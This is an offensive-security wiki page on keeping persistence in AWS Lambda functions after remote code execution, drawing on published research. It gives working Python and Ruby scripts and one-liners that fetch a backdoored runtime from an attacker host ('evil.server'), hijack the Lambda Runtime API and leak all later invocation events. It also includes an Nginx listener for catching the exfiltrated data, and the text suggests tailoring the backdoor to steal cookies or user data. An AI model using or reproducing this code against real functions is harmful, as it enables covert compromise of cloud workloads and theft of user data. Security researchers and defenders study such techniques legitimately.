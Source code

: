 ```yaml
---
author_name: Nick Frichette
title: Lambda Persistence
description: How to establish persistence on a Lambda function after getting remote code execution.
---
```


Original Research: [Yuval Avrahami](https://twitter.com/yuval_avrahami)  
Link to Research: [Unit 42: Gaining Persistency on Vulnerable Lambdas](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)  
Additional Reading: [Revisiting Lambda Persistence](https://frichetten.com/blog/revisiting_lambda_persistence/)

!!! Warning
    Depending on the specific runtime and tools available, you will likely have to change the approach taken to gain persistence in a Lambda function. The general concepts should serve as a guide for a more specific attack you develop.

After finding a remote code execution vulnerability in a Lambda function, you'll probably want to establish persistence. The steps to do this will depend on the specific runtime that is being used by the Lambda function. Below the Python and Ruby runtimes are used as an example.

!!! Note
    See the "Creating a Listener" section at the bottom of this page for how to setup a listener for exfiltrated data.

## Python Runtime

After identifying that your target is using the Python runtime, you'll need a copy of the `/var/runtime/bootstrap.py` file. You can get this by either creating your own Lambda function and copying it, or by leaking it from the target Lambda function.

Next, you'll want to modify this runtime with some logic to backdoor it. This can be simply done with a few lines such as the following:

<figure markdown>
  ![Python - Backdoored Lambda Bootstrap File](/images/aws/persistence/lambda_persistence/python_backdoor_bootstrap.png){ loading=lazy }
</figure>

!!! Note
    You can customize what the backdoor does, depending on what you're looking to do. Maybe you want to leak a specific user's data. Maybe you just want Cookies. It's up to you!

With the `bootstrap.py` file backdoored, you'll want to host it in a location that is accessible for the Lambda function to pull down. 

The next step is creating a one-liner to pull down this modified code, as well as to terminate the current event in the [Runtime API](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html). This can be done by posting to a specific endpoint with the current request ID. All together, that code should look something like this:

``` py
import urllib3
import os
http = urllib3.PoolManager()

# Writing the new bootstrap to a file
r = http.request('GET', 'https://evil.server/bootstrap.py')
w = open('/tmp/bootstrap.py', 'w')
w.write(r.data.decode('utf-8'))
w.close()

# Getting the current request ID
r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
rid = r.headers['Lambda-Runtime-Aws-Request-Id']

# End the current event
http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'})

# Swap the runtimes
os.system('python3 /tmp/bootstrap.py')
```

Or as a long one-liner (don't forget to change the hostname):

```
python3 -c "import urllib3;import os;http = urllib3.PoolManager();r = http.request('GET', 'https://evil.server/bootstrap.py');w = open('/tmp/bootstrap.py', 'w');w.write(r.data.decode('utf-8'));w.close();r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');rid = r.headers['Lambda-Runtime-Aws-Request-Id'];http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'});os.system('python3 /tmp/bootstrap.py')"
```

From here on, all subsequent events should be leaked to the attacker. Remember that if the Lambda function is not used for 5-15 minutes, it will become "cold" and you will lose access to the persistence you've established. You can execute the function again to keep it "warm" or you can simply reestablish persistence.

## Ruby Runtime

After identifying that your target is using the Python runtime, you’ll need a copy of the `/var/runtime/lib/runtime.rb` file. You can get this by either creating your own Lambda function and copying it, or by leaking it from the target Lambda function.

Next, you’ll want to modify this runtime with some logic to backdoor it. This can be simply done with a few lines such as the following:

<figure markdown>
  ![Ruby - Backdoored Lambda Bootstrap File 1](/images/aws/persistence/lambda_persistence/ruby_backdoor_bootstrap_1.png){ loading=lazy }
</figure>

<figure markdown>
  ![Ruby - Backdoored Lambda Bootstrap File 2](/images/aws/persistence/lambda_persistence/ruby_backdoor_bootstrap_2.png){ loading=lazy }
</figure>

With the `runtime.rb` file backdoored, you’ll want to host it in a location that is accessible for the Lambda function to pull down. Note, you'll likely want to rename it to something like `run.rb`. This is because you'll want to create a symbolic link between everything in `/var/runtime/lib` to `/tmp`. This will ensure your modified `runtime.rb` file can access all the additional libraries it needs.

The next step is creating a one-liner to create those symbolic links, pull down this modified code, and execute it as well as to terminate the current event in the [Runtime API](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html). This can be done by posting to a specific endpoint with the current request ID. All together, that code should look something like this:

``` ruby
require 'net/http'

# Writing the new runtime to a file
uri = URI('https://evil.server/run.rb')
r = Net::HTTP.get_response(uri)
File.write('/tmp/run.rb', r.body)

# Getting the current request ID
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
r = Net::HTTP.get_response(uri)
rid = r.header['Lambda-Runtime-Aws-Request-Id']

# End the current request
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+rid+'/response')
Net::HTTP.post(uri, 'null')
```

Or as a long one-liner (don’t forget to change the hostname, create the symbolic links, or execute the code in the background):

```
ln -s /var/runtime/lib/* /tmp && ruby -e "require 'net/http';uri = URI('https://evil.server/run.rb');r = Net::HTTP.get_response(uri);File.write('/tmp/run.rb', r.body);uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');r = Net::HTTP.get_response(uri);rid = r.header['Lambda-Runtime-Aws-Request-Id'];uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+rid+'/response');Net::HTTP.post(uri, 'null')" && ruby /tmp/run.rb &
```

From here on, all subsequent events should be leaked to the attacker. Remember that if the Lambda function is not used for 5-15 minutes, it will become “cold” and you will lose access to the persistence you’ve established. You can execute the function again to keep it “warm” or you can simply reestablish persistence.

## Creating a Listener

How you receive leaked events is up to you. The author found that the simplest way was via post requests to an Nginx server. The configuration was simple. First, outside of the server block, include a line like `log_format postdata $request_body`.

Next, include the following inside the server block:

```
location = /post {
    access_log /var/log/nginx/postdata.log postdata;
    proxy_pass http://127.0.0.1/post_extra;
}
location = /post_extra {
    access_log off;
    return 200;
}
```

After restarting Nginx, all logs received via post requests should be stored in `/var/log/nginx/postdata.log`.